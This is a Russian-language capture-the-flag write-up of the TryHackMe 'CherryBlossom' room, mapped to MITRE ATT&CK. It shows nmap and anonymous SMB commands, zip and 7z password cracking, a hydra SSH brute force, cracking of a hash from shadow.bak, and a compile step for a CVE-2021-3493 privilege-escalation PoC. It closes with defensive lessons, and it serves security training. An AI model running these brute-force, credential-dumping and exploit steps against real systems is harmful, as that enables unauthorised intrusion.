








:simple-tryhackme: [Комната на TryHackMe](https://tryhackme.com/room/cherryblossom)

## Резюме

**CherryBlossom** — это комната сложности уровня **Hard** на TryHackMe за авторством MuirlandOracle. В данной комнате представлена машина на Linux. Все начинается со сканирования портов, после которого удается обнаружить открытый порт 445 с работающей службой SMB, где, как выясняется в ходе сканирования, возможен анонимный доступ. После подключения к SMB в доступной шаре был обнаружен закодированный с помощью base64 файл journal.txt. После декодирования и дальнейшего анализа файла было выяснено, что это на самом деле изображение формата png. Из изображения был извлечен файл с расширением .zip, однако **file** говорил о том, что это jpeg изображение. С помощью изменения магического числа удалось получить исправный архив, который был запаролен. После подбора пароля среди извлеченных файлов оказался 7z архив, который также был запаролен. После успешного подбора пароля содержимое данного архива удалось открыть в приложении Cherrytree (Flag 1). При исследовании содержимого дневника в Cherrytree был найден список паролей, а также имя пользователя lily, что в конечном итоге с помощью перебора пароля привело к получению доступа по SSH. После подключения к пользователю lily в ходе исследования окружения был обнаружен файл shadow.bak, который содержал хэши паролей пользователей в системе. Из данного файла был изъят хэш пароля пользователя johan, подбор пароля был выполнен с использованием ранее найденного списка паролей в приложении Cherrytree. После успешного подбора пароля было выполнено подключение по SSH за пользователя johan (Flag 2). Для дальнейшего повышения привилегий до рут-пользователя была обнаружена и эксплуатирована уязвимость CVE-2021-3493 (Flag 3). 

## Цепочка атаки

>SMB Null Session (Anonymous Login) → Data Deobfuscation (Base64) 
>→ Steganography (stegpy) → File Signature Manipulation (Magic Bytes Fix) 
>→ Archive Cracking (John the Ripper) → Information Disclosure (Cherrytree DB) 
>→ SSH Credential Stuffing (User: lily) → OS Credential Dumping (shadow.bak) 
>→ Hash Cracking → Lateral Movement (User: johan) → Sudo Vulnerability (CVE-2021-3493) → Root

## MITRE ATT&CK Mapping

|         Phase         |        Tactic        |                    Technique                   |     ID    |
|:---------------------:|:--------------------:|:----------------------------------------------:|:---------:|
|  Network Enumeration  |       Discovery      |            Network Service Discovery           |   T1046   |
|    Data Collection    |      Collection      |         Data from Network Shared Drive         |   T1039   |
|   Payload Extraction  |    Defense Evasion   | Obfuscated Files or Information: Steganography | T1027.003 |
|    Offline Cracking   |   Credential Access  |         Brute Force: Password Cracking         | T1110.002 |
| Information Gathering |   Credential Access  |   Unsecured Credentials: Credentials In Files  | T1552.001 |
|    Initial Foothold   |    Initial Access    |         Valid Accounts: Local Accounts         | T1078.003 |
|   Local Enumeration   |   Credential Access  |       OS Credential Dumping: /etc/shadow       | T1003.008 |
|    Lateral Movement   |   Lateral Movement   |              Remote Services: SSH              | T1021.004 |
|  Privilege Escalation | Privelege Escalation |      Exploitation for Privilege Escalation     |   T1068   |

## Разведка — `T1046`, `T1039`

??? note "Результат работы nmap"
    === "Nmap Scan"
        ```console
        $ nmap -sS -sC -p- 10.113.182.130
        Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-01 05:00 -0400
        Nmap scan report for 10.113.182.130
        Host is up (0.091s latency).
        Not shown: 65532 closed tcp ports (reset)
        PORT    STATE SERVICE
        22/tcp  open  ssh
        | ssh-hostkey: 
        |   2048 21:ee:30:4f:f8:f7:9f:32:6e:42:95:f2:1a:1a:04:d3 (RSA)
        |   256 dc:fc:de:d6:ec:43:61:00:54:9b:7c:40:1e:8f:52:c4 (ECDSA)
        |_  256 12:81:25:6e:08:64:f6:ef:f5:0c:58:71:18:38:a5:c6 (ED25519)
        139/tcp open  netbios-ssn
        445/tcp open  microsoft-ds

        Host script results:
        | smb-security-mode: 
        |   account_used: guest
        |   authentication_level: user
        |   challenge_response: supported
        |_  message_signing: disabled (dangerous, but default)
        | smb2-security-mode: 
        |   3.1.1: 
        |_    Message signing enabled but not required
        |_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
        | smb-os-discovery: 
        |   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
        |   Computer name: cherryblossom
        |   NetBIOS computer name: UBUNTU\x00
        |   Domain name: \x00
        |   FQDN: cherryblossom
        |_  System time: 2026-07-01T10:04:05+01:00
        | smb2-time: 
        |   date: 2026-07-01T09:04:05
        |_  start_date: N/A
        |_clock-skew: mean: -19m58s, deviation: 34m37s, median: 0s

        Nmap done: 1 IP address (1 host up) scanned in 220.76 seconds
        ```

Сканирование хоста с помощью `nmap` показало три сервиса на трёх открытых портах. Наиболее ценным на этот момент является сервис SMB на 445 порту. Кроме того, применение флага `-sC` позволило узнать, что к этому сервису разрешен анонимный доступ.

??? note "Результат работы smbclient"
    === "smbclient"
        ```console
        $ smbclient -L //10.113.182.130/ -N         
        Anonymous login successful

                Sharename       Type      Comment
                ---------       ----      -------
                Anonymous       Disk      Anonymous File Server Share
                IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
        Reconnecting with SMB1 for workgroup listing.
        Anonymous login successful

                Server               Comment
                ---------            -------

                Workgroup            Master
                ---------            -------
                WORKGROUP            UBUNTU
        ```

После подключения к сервису была обнаружена шара Anonymous.

??? note "Результат работы smbclient"
    === "smbclient"
        ```console
        $ smbclient //10.113.182.130/Anonymous -N
        Anonymous login successful
        Try "help" to get a list of possible commands.
        smb: \> ls
        .                                   D        0  Sun Feb  9 19:22:51 2020
        ..                                  D        0  Sun Feb  9 12:48:18 2020
        journal.txt                         N  3470998  Sun Feb  9 19:20:53 2020

                        10253588 blocks of size 1024. 4680100 blocks available
        smb: \> get journal.txt
        getting file \journal.txt of size 3470998 as journal.txt (1179.4 KiloBytes/sec) (average 1179.4 KiloBytes/sec)
        ```

Внутри вышеупомянутой шары находился файл `journal.txt`.

## Анализ полученных данных и первый флаг — T1027.003, T1110.002, T1552.001

### Исследование файла


/// screenshot
Содержимое файла journal.txt
///

Содержимое файла закодировано с помощью base64. Для декодирования была использована утилита `base64` с флагом `-d`.

```console
$ cat journal.txt | base64 -d > result
```

После декодирования содержимое не приобрело читабельный вид, но при использовании утилиты `#!bash file` удалось обнаружить, что в результате декодирования было получено изображение формата png.

```console
$ file result         
result: PNG image data, 1280 x 853, 8-bit/color RGB, non-interlaced
```

### Стеганография

??? note "Полученное изображение"
    
    /// screenshot
    Полученное изображение
    ///

Для анализа изображения на наличие скрытых файлов был использован тул `stegpy`.

```console
$ stegpy result
File _journal.zip succesfully extracted from result
```

Применение `stegpy` позволило извлечь скрытый архив формата `zip`, при распаковке которого возникла ошибка, сообщающая о том, что архив повреждён.

```console
$ unzip _journal.zip
Archive:  _journal.zip
file #1:  bad zipfile offset (local header sig):  0
```

В ходе дальнейшего анализа полученного архива была применена утилита `file`, с помощью которой удалось узнать, что файл является изображением формата `jpeg`.

```console
$ file _journal.zip
_journal.zip: JPEG image data
```

В попытке восстановить поврежденный архив была предпринята попытка изменить магическое число файла на магическое число, присущее файлам с расширениям `.zip` (`50 4B 03 04`).


/// screenshot
Изменение магического числа в hexedit
///

Попытка с изменением магического числа увенчалась успехом, но в конечном итоге для распаковки архива потребовался пароль.

### Работа с архивами

```console
$ unzip _journal.zip
Archive:  _journal.zip
[_journal.zip] Journal.ctz password: 
   skipping: Journal.ctz             incorrect password
```

Для подбора пароля к архиву воспользовался связкой тулов `zip2john` + `JohnTheRipper`.

```bash
$ zip2john _journal.zip > zip_hash.txt
ver 2.0 efh 5455 efh 7875 _journal.zip/Journal.ctz PKZIP Encr: TS_chk, cmplen=70461, decmplen=70434, crc=0B987D84 ts=0035 cs=0035 type=8
```

Получшившийся после применения `zip2john` хэш необходимо передать `JohnTheRipper` для осуществления подбора пароля. В качестве словаря использовался `rockyou.txt`.

??? note "Результат работы JohnTheRipper"
    ```console
    $ john --wordlist=rockyou.txt zip_hash.txt
    Loaded 1 password hash (PKZIP [32/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    [REDACTED]        (_journal.zip/Journal.ctz)     
    1g 0:00:00:00 DONE (2026-07-01 06:39) 50.00g/s 409600p/s 409600c/s 409600C/s 123456..whitetiger
    ```

При помощи полученного пароля было извлечено содержимое архива.

```console
$ unzip _journal.zip
Archive:  _journal.zip
[_journal.zip] Journal.ctz password: 
  inflating: Journal.ctz 
```

Внутри архива находился ещё один архив, который точно также требовал пароль для распаковки содержимого. Это архив формата `7z`, который является производной приложения Cherrytree, являющимся хранилищем заметок. Этот архив можно открыть в данном приложении.

```console
$ file Journal.ctz 
Journal.ctz: 7-zip archive data, version 0.4
```

Для того, чтобы осуществить подбор пароля для архива формата `7z`, воспользовался связкой тулов `7z2john` + `JohnTheRipper`.

```console
$ 7z2john Journal.ctz > 7z_hash.txt
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
```

Полученный при использовании `7z2john` хэш необходимо вновь передать `JohnTheRipper` для подбора пароля. Использовался словарь `rockyou.txt`.

??? note "Результат работы JohnTheRipper"
    ```console
    $ john --wordlist=rockyou.txt 7z_hash.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
    [REDACTED]        (Journal.ctz)     
    1g 0:00:01:19 DONE (2026-07-01 06:55) 0.01264g/s 70.79p/s 70.79c/s 70.79C/s spartans..inferno
    ```

С получением пароля данный архив можно открыть в вышеупомянутом приложении Cherrytree. В результате появится упорядоченный список различных заметок.


/// screenshot
Приложение Cherrytree
///

### Исследование записей

В одной из записей был обнаружен первый флаг.


/// screenshot
Flag 1
///

Среди записей была обнаружена ещё одна примечательная: в ней автор рассказывал о составленном им списке паролей. Сам список паролей был прикреплен к одной из записей. Кроме того, было упомянуто имя `lily`. С учетом полученного имени пользователя и списка паролей было решено воспользоваться `hydra` для подбора пароля и дальнейшего подключения к ssh (22 порт).

??? note "Результат работы hydra"
    ```console
    $ hydra -l lily -P cherry-blossom.list ssh://10.113.182.130

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-07-01 07:14:58
    [22][ssh] host: 10.113.182.130   login: lily   password: [REDACTED]
    1 of 1 target successfully completed, 1 valid password found
    ```

После успешного подбора пароля был осуществлён успешный вход по ssh за пользователя `lily`.

```console
$ ssh lily@10.113.182.130


        #####################################
        ##########  Welcome, Lily  ##########
        #####################################

lily@cherryblossom:~$ 
```

## Lateral Movement и второй флаг — `T1003.008`, `T1110.002`, `T1021.004`

После успешного входа за `lily` было выполнено исследование окружение, которое в конечном итоге позволило обнаружить бэкап файла `shadow` по пути `/var/backups/shadow.bak`.

```console
lily@cherryblossom:/var/backups$ ls -la

-r--r--r--  1 root shadow    1481 Feb  9  2020 shadow.bak
```

При исследовании окружения ранее было замечено наличие еще одной папки пользователя в директории `/home` по имени `johan`. Именно его хэш был извлечен из обнаруженного `shadow.bak`.


/// screenshot
Содержимое shadow.bak
///

Для подбора пароля с использованием полученного хэша был применен тул `hashcat`. Использовался ранее полученный словарь в приложении Cherrytree.

```console
$ hashcat -a0 -m1800 '[REDACTED_HASH]' cherry-blossom.list
```

С помощью полученного пароля был осуществлен вход за пользователя `johan`. В домашней директории пользовался находился второй флаг в файле `user.txt`.


/// screenshot
Flag 2
///

## Повышение привилегий, третий флаг — T1068

После получения доступа к системе в качестве `johan` было принято решение воспользоваться тулом `Linux Exploit Suggester` для сканирования системы на предмет CVE, к которым она уязвима.


/// screenshot
Результат работы LSE
///

Среди обнаруженных результатов выбор пал на `CVE-2021-3493`. Для эксплуатации уязвимости на целевую систему с помощью `scp` был перемещён PoC для данной CVE, который был заранее скомпиллирован на атакующей машине.

```console
gcc exploit.c -o file_1 -static
```

Уязвимость была успешно эксплуатирована, и в конечном итоге были получены рут права в системе. Третий флаг находился по пути `/root/root.txt`. Все три флага были добыты.


/// screenshot
Flag 3
///

## Извлеченные уроки

1. **Отключить возможность анонимного доступа к общим сетевым папкам**. Именно из-за того, что к сервису SMB был возможен анонимный доступ, был получен файл, содержащий чувствительные данные, который в итоге привел к доступу к системе по ssh.
2. **Следить за правами доступа к чувствительным файлам в системе**. Только потому, что найденный бэкап файла `shadow` предполагал права на чтение для всех пользователей, удалось извлечь хэш ещё одного пользователя в системе, который в конечном итоге привел к горизонтальному перемещению.
3. **Своевременно обновлять систему**. Из-за отсутствия необходимых патчей система была уязвима к `CVE-2021-3493`.